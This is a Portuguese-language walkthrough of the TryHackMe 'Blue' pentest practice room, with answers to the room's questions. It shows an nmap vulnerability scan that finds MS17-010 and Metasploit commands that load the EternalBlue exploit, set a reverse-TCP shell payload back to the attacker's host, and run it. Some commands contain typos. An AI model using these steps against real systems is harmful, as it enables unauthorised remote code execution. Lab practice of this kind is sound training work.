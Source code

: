 # Introdução

A room trata de um exploiting de um windows com vulnerabilidade eternal blue.

A room não é um CTF, serve mais para prática de pentest.

# Execução

## 1 - Reconnaissance (Recon)

### Questões:
- a. *Scan the machine.*.

Execução do nmap, no terminal:
```bash
export TARGET=10.10.206.236  

nmap -sS -sV -O -sC --script vuln -T5 -Pn -p- $TARGET -oN portscan.nmap -v
```
- Primeiro, um export para uma variável de ambiente contendo o IP da VM alvo (esse ip vai mudar a cada deploy da VM no ambiente TryHackMe);
- O segundo comando é a execução do nmap. Mais detalhes sobre o comando [aqui](https://explainshell.com/explain?cmd=nmap+-sS+-sV+-O+-sC+--script+vuln+-T5+-Pn+-p-+%24TARGET+-oN+portscan.nmap+-v).

***Resposta da questão a***: *Não é necessário*

- b. *How many ports are open with a port number under 1000?*

Após a execução do nmap, constatou-se 3 portas abertas abaixo de 1000 (139/tcp, 445/tcp e 135/tcp)

***Resposta da questão b***: *3*

- c. *What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)*

Após a execução do nmap, basta verificar ou mesmo ler no arquivo de saída geradao "portscan.nmap" as vulnerabilidades detectadas. No trecho abaixo, temos a resposta:

```shell
Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

```

***Resposta da questão c***: *ms17-010*

## 2 - Gain access

### Questões:

- a. *Start metasploit*: *Não é necessário responder*

Para iniciar o metasploit, basta executar no terminal:
```shell
msfsconsole
```

![msfconsole](images/msfconsole.png)

- b. *Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)*

Para responder essa questão, basta executar o comando abaixo no msfconsole:

```shell
search ms17-010
```
Ou seja, fazer uma busca pela vulnerabilidade detectada na etapa de recon.

![search in msfconsole](images/msfconsole_search.png)


***Resposta da questão b***: *exploit/windows/smb/ms17_010_eternalblues*

- c. *Show options and set the one required value. What is the name of this value? (All caps for submission)*

Para responder essa questão, primeiro deve-se habilitar o exploit necessário com o comando:

```shell
use exploit/windows/smb/ms17_010_eternalblue 
```

Após isso, basta digitar o comando abaixo ara listar as opções do exploit:

```shell
show options
```
![show options](images/msfconsole_show_options.png)


***Resposta da questão c***: *RHOSTS*

Antes de executar o exploit, é preciso "setar" o payload, conforme comando abaixo:

```shell
set payload windows/x64/shell/reverse_tcp
```

Também é necessário configurar o RHOSTS, conforme comando abaixo:

```shell
set RHOSTS=IP_DO_ALVO
```

Também é necessário configurar o LHOSTS, que é host do atacante:

```shell
set LHOSTS=IP_ATACANTE
```

Para executar o exploit, basta:

```shell
run
```

